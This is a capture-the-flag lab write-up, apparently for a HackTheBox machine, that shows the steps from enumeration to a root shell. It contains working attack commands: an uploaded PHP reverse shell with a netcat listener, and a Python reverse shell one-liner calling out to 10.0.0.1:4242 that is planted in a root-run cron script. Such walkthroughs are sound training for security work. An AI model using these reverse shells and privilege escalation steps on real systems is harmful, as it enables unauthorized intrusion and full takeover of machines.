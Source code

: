 # Enumeration
- using `sudo nmap -p- -A -T4 -Pn 10.10.10.68 ` to enumerate we find:![](attachment/d4c273b4743c20bc28a0cd6c0c92a2ad.png)
- We find a webpage on the ip address:![](attachment/5a6d58c02089207fea9147f06539f6f7.png)
	The article mentions about https://github.com/Arrexel/phpbash
- The github page states that a bash cli is present on the website accessible by xyz/phpbash.php hence we use dirbuster and find that it exists:![](attachment/20a36d69c094d3fee4a348b60b4398b3.png)
- We navigate to the above mentioned directory and find a bash terminal with user privileges where we can collect our flag from user.txt
- Then we upload a reverse shell from https://github.com/pentestmonkey/php-reverse-shell and execute it by visiting the webpage http://10.10.10.68/uploads/reverse-php-shell.php while listening through netcat using `nc -nvlp 4444`![](attachment/abc3131b88d8618af0f219581a734d05.png)
- We notice that we do not have full tty so we execute the following to gain full tty:
	```
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
	```
- After we gain full tty we find the linux version and other details using:
	```
	(cat /proc/version || uname -a ) 2>/dev/null
	lsb_release -a 2>/dev/null # old, not by default on many systems
	cat /etc/os-release 2>/dev/null # universal on modern systems
	```

	After which we found out the linux machine runs Ubuntu 16.04.2 LTS![](attachment/3de844dd460cd69837437d3f398e3b68.png)
	For which we discovered an exploit https://www.exploit-db.com/exploits/44298 which we compiled to a php file for uploading using `gcc 44298.c -o hax.php` which we uploaded using the phpbash.
- Now we can rename it from php to unnamed `mv hax.php hax` and make it executable `chmod +x hax`
- We found out using `sudo -l` that scriptmanager can execute all commands without password![](attachment/0e2722a839e971e6a32b2cae877f807b.png)
- So we can access the user by doing  `sudo -u scriptmanager /bin/bash` ![](attachment/8f92d23dad29249f3c9dbbd4a74e14f6.png)
- Found an unusual scripts folder ![](attachment/003790b7e1f55d10c352c24b99e8017d.png)
- We find a text.py file in that which executes frequently and makes a  text.txt file which is owned by root: ![](attachment/cb2b56fd2a17350e04fafc68b547ed81.png)
- Using this cheatsheat https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl we make a test.py file with: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])`
- then use wget to move it to the scripts directory and replace the test.py![](attachment/3716351bad134204328ef72d724d6f62.png)
- we get a root shell![](attachment/2241314b241ff4146d4bba91479d90ff.png)